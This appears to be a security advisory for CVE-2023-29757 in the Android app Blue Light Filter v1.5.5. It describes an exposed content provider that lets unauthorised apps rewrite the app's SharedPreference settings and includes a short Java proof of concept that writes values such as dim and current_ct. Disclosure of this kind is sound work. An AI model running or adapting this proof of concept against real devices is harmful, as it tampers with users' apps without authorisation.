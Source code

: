 # Escalation of Privileges exists in Blue Light Filter（CVE-2023-29757）

Vendor: Leap Fitness Group(https://leap.app/)

Affected product: Blue Light Filter(com.eyefilter.nightmode.bluelightfilter)

Version: 1.5.5

Download link： https://play.google.com/store/apps/details?id=com.eyefilter.nightmode.bluelightfilter

Description of the vulnerability for use in the CVE：An issue found in Blue Light Filter v.1.5.5 allows unauthorized apps to cause escalation of privilege attacks by manipulating the SharedPreference files.

Additional information: The Blue Light Filter application allows unauthorized applications to use the methods provided in its exposed components to modify data in the SharedPreference file, which is loaded at application startup and affects critical application functionality. Specifically, an attacker is able to change the application's color temperature by modifying the current_ct field in the SharedPreference file, causing the phone to display abnormally and resulting in an elevation of privilege attack.

poc:

```java
 public void attack_eye() {
        ContentResolver contentResolver = getContentResolver();
        ContentValues contentValues = new ContentValues();
        Uri uri = Uri.parse("content://com.eyefilter.nightmode.bluelightfilter.PREFFERENCE_AUTHORITY/a/a");
        contentValues.put("dim", 50);
        contentValues.put("filter_capacity", 100000);
        contentValues.put("language_index", -1);//设置语言
        contentValues.put("current_ct", 600);//设置当前色温
        contentResolver.insert(uri, contentValues);
    }

```